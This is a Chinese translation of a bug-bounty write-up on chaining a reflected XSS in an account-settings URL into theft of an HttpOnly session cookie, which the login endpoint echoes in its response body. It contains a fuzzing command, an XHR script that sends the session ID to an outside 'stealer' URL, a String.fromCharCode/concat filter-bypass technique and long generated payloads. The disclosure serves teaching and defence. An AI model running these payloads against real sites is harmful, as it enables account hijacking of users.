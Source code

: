 ```yaml
---
title: 翻译Stealing HttpOnly Cookie via XSS
date: 2018-4-12 10:50:30
tags: Web安全
toc: true
---
```

> 本文首发[先知社区 HttpOnly Cookie via XSS](https://xz.aliyun.com/t/2266)
原文地址：https://medium.com/@yassergersy/xss-to-session-hijack-6039e11e6a81

通过XSS窃取HttpOnly Cookie

#### 你好
我写很少关于我发现，但我决定分享这些，这可能会帮助你，和POC。
首先说实话，我是最懒惰的黑客之一，我运行自己的脚本和常用工具，如wfuzz，sublister，nmap等，观看random电影，电影结束后我记得那些正在运行程序。
我对私人网站上的目录FUZZ，让我称之为jerico.com。jerico.com是一个流行的博客平台，拥有超过5亿用户。像往常一样，我用一个wordlist运行Wfuzz

		wfuzz -c -z file,/root/Desktop/common-list --hc 404,400,302 https://jerico.com/FUZZ
我很惊讶地看到服务器返回
200 OK 为以下目标点

		/account/settings/server
当我在浏览器中请求这个目标时，我看自己的帐户设置，我试图查看网站的源代码，并得出结论：‘server’ string 返回在一个script标签内。
```
<script> 
var user ='server'; 
</SCRIPT>
```
当然一个非常简单的payload是：
```
'-alert（2） - '
```
所以完整的网址是：
https://jerico.com/account/settings/server'-alert(2)-'
Boom，这是一个非常简单的XSS，幸运的.

	报告
	你好团队
	我在
	https://jerico.com/account/settings/server'-alert(2)-' 找到了一个xss，
	happy 修复。
	是的，我喜欢在没有进一步调查的情况下报告非常简单的问题，但这次团队没有反应，所以我决定引起他们一些注意。
对我来说有趣的一点是登录。
从我之前的调查中，我发现登录后返回会话cookie
```
set-cookie Header
in Response body
```
如果您尝试登录

		POST  /Account/Login HTTP/1.1
		HOST: jerico.com
		user[email]=fo@bar.com&user[password]=qwerty
response是：

		HTTP/1.1 200 OK
		Set-Cookie:session=xz4z5cxz4c56zx4c6x5zc46z5xczx46cx4zc6xz4czxc;
		secure;httpOnly;domain=jersico.com
		{"session":"xz4z5cxz4c56zx4c6x5zc46z5xczx46cx4zc6xz4czxc"}
会话cookie被标记为httpOnly,So javascript不能操作它
但会话在响应体中返回，Javascript不能访问cookie，但它可以访问响应主体并获取受保护的cookie。
因此，要获取cookie，您需要post请求作为登录信息并获取响应body：

		POST  /Account/Login HTTP/1.1
		HOST: jerico.com
		ْX-Requested-With: XMLHttpRequest的
		user[email]=fo@bar.com&user[password]=qwerty
你在开玩笑吗 ？你将如何获得电子邮件和密码。
我试图在没有任何body参数的情况下向登录目标发出请求

		POST  /Account/Login HTTP/1.1
		Cookie: session=xz4z5cxz4c56zx4c6x5zc46z5xczx46cx4zc6xz4czxc;
		HOST: jerico.com
哇！
我很幸运，服务器在响应体中返回相同的数据：

		HTTP/1.1 200 OK
		Set-Cookie:session=xz4z5cxz4c56zx4c6x5zc46z5xczx46cx4zc6xz4czxc;
		secure;httpOnly;domain=jersico.com
		{"session":"xz4z5cxz4c56zx4c6x5zc46z5xczx46cx4zc6xz4czxc"}
是的，这个计划进展顺利。

	发出XHR请求登录目标
	服务器在响应正文中返回sesssion id
	匹配body并窃取会话。
这里是完整的JS代码来窃取cookie
```
<script>
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() { if (xhr.readyState == 4)
 
{
   prompt('You are hacked , your session='+xhr.response);}
   document.location.replace('//yassergersy.com/stealer?data='+xhr.response');
}
xhr.open('POST', '/account/login',true);
xhr.withCredentials = true;
xhr.send(null);
</script>
```
编码和发送payload失败:(大多数特殊字符被过滤：
```
",<>/\
```
对我来说，以下足以实现我的目标：
```
'()-.
```
我们需要将所有特殊字符转换为 String.fromCharCode(ascii)
空 = 32
```
String.fromCharCode(32)
```
逗号= 44
```
String.fromCharCode(44)
```
所以alert（1337）的payload将是：

	eval（String.fromCharCode（97,108,101,114,116,40,49,51,51,55,41））

等等，逗号被过滤，有效载荷再次失败，我们需要另一个技巧，我的jascript技能不是很好,我试图搜索谷歌,javascript string concatenation,并找到了concat()
https://www.w3schools.com/jsref/jsref_concat_string.asp
因此，我们可以使用连接它们而不是分隔字符 
```
.concat()
```
例如，如果我们需要通过 a,b
我们可以将b与使用连接起来：
```
'a'.concat（'b'）
```
当然，这个技巧不会用于字母字符，它将用于应用程序敏感的特殊字符
```
"<>/\,
```
所以使用concat和String.fromCharCode我们可以执行任何JS代码
我决定测试下面的有效载荷
```
<script>
       document.location.replace("//evil.net");
</script>
```
这太无聊了，手动完成，于是我决定编写一个python脚本使其更容易：
https://gist.github.com/YasserGersy/a0fee5ce7422a558c84bfd7790d8a082
将payload保存到名为的文件payload.txt 并执行以下命令
```
python Js2S.py payload.txt
```
结果产生：
```
''.concat(String.fromCharCode(60)).concat('script').concat(String.fromCharCode(62)).concat(String.fromCharCode(10)).concat('document').concat(String.fromCharCode(46)).concat('location').concat(String.fromCharCode(46)).concat('replace').concat(String.fromCharCode(40)).concat(String.fromCharCode(34)).concat(String.fromCharCode(47)).concat(String.fromCharCode(47)).concat('evil').concat(String.fromCharCode(46)).concat('net').concat(String.fromCharCode(34)).concat(String.fromCharCode(41)).concat(String.fromCharCode(59)).concat(String.fromCharCode(10)).concat(String.fromCharCode(60)).concat(String.fromCharCode(47)).concat('script').concat(String.fromCharCode(62)).concat(String.fromCharCode(10))
```
这个生成的payload被认为是一个单独的字符串，不会被应用程序过滤，所以我们可以将它传递给eval并执行它
在他的情况下，我需要将这个payload写入文件中。
所以我会用 document.write(my_payload)
而不是eval，任何人都可以使用的任何功能。
所以我们的最终payload是：
```
https://jerico.com/Account/Settings/server`-dcument.write( <<generated-payload-by-python-script>>)'-
```
成功：D，让我们试试payload：
```
$cat myrealworldpayload.txt
```
```
<script>
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() { if (xhr.readyState == 4)
 {prompt('You are hacked , your session='+xhr.response);}}
xhr.open('POST', '/account/login', true);
xhr.send(null);
</script>
```
和python脚本生成以下内容：
```
python Js2S.py myrealworldpayload.txt
```
output
```
''.concat(String.fromCharCode(60)).concat('script').concat(String.fromCharCode(62)).concat(String.fromCharCode(10)).concat('var').concat(String.fromCharCode(32)).concat('xhr').concat(String.fromCharCode(32)).concat(String.fromCharCode(61)).concat(String.fromCharCode(32)).concat('new').concat(String.fromCharCode(32)).concat(String.fromCharCode(88)).concat('MLHttpRequest').concat(String.fromCharCode(40)).concat(String.fromCharCode(41)).concat(String.fromCharCode(59)).concat(String.fromCharCode(10)).concat('xhr').concat(String.fromCharCode(46)).concat('onreadystatechange').concat(String.fromCharCode(32)).concat(String.fromCharCode(61)).concat(String.fromCharCode(32)).concat('function').concat(String.fromCharCode(40)).concat(String.fromCharCode(41)).concat(String.fromCharCode(32)).concat(String.fromCharCode(123)).concat(String.fromCharCode(32)).concat('if').concat(String.fromCharCode(32)).concat(String.fromCharCode(40)).concat('xhr').concat(String.fromCharCode(46)).concat('readyState').concat(String.fromCharCode(32)).concat(String.fromCharCode(61)).concat(String.fromCharCode(61)).concat(String.fromCharCode(32)).concat('4').concat(String.fromCharCode(41)).concat(String.fromCharCode(10)).concat(String.fromCharCode(32)).concat(String.fromCharCode(123)).concat('prompt').concat(String.fromCharCode(40)).concat(String.fromCharCode(39)).concat(String.fromCharCode(89)).concat('ou').concat(String.fromCharCode(32)).concat('are').concat(String.fromCharCode(32)).concat('hacked').concat(String.fromCharCode(32)).concat(String.fromCharCode(44)).concat(String.fromCharCode(32)).concat('your').concat(String.fromCharCode(32)).concat('session').concat(String.fromCharCode(61)).concat(String.fromCharCode(39)).concat(String.fromCharCode(43)).concat('xhr').concat(String.fromCharCode(46)).concat('response').concat(String.fromCharCode(41)).concat(String.fromCharCode(59)).concat(String.fromCharCode(125)).concat(String.fromCharCode(125)).concat(String.fromCharCode(10)).concat('xhr').concat(String.fromCharCode(46)).concat('open').concat(String.fromCharCode(40)).concat(String.fromCharCode(39)).concat('POST').concat(String.fromCharCode(39)).concat(String.fromCharCode(44)).concat(String.fromCharCode(32)).concat(String.fromCharCode(39)).concat(String.fromCharCode(47)).concat('account').concat(String.fromCharCode(47)).concat('login').concat(String.fromCharCode(39)).concat(String.fromCharCode(44)).concat(String.fromCharCode(32)).concat('true').concat(String.fromCharCode(41)).concat(String.fromCharCode(59)).concat(String.fromCharCode(10)).concat('xhr').concat(String.fromCharCode(46)).concat('send').concat(String.fromCharCode(40)).concat('null').concat(String.fromCharCode(41)).concat(String.fromCharCode(59)).concat(String.fromCharCode(10)).concat(String.fromCharCode(60)).concat(String.fromCharCode(47)).concat('script').concat(String.fromCharCode(62)).concat(String.fromCharCode(10))
```
现在将下面的url中xxxxxxxxxx替换为生成的payload：
```
https://jerico.com/Account/Settings/server`-dcument.write( <<xxxxxxxxxxxxx>>)'-
```
payload太长，url，但它并不重要：
我能够窃取cookie。
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/xss-httponly.png)

### 结论：
我发给团队的最后的POC，过程？

执行payload，首先在脚本标签内回显。
payload首先作为数学运算执行，因为我使用' - 作为减法运算，它首先会将完整的恶意payload添加到要在没有过滤的情况下执行的文档中。
payload执行并发出一个POST请求，并提取响应以提取会话ID并将其发送给攻击者网站 http://yassergersy.com， 后者将按照上图中的提示进行提示。
攻击者网站收到被盗的会话ID并记录下来。

learn：

Think in the box :D
Chain bugs for higher impact.
Never stop searching

Timeline

4–2–2018 Reported
5–2–2018 Triaged
The bounty was frustrating :(
Regards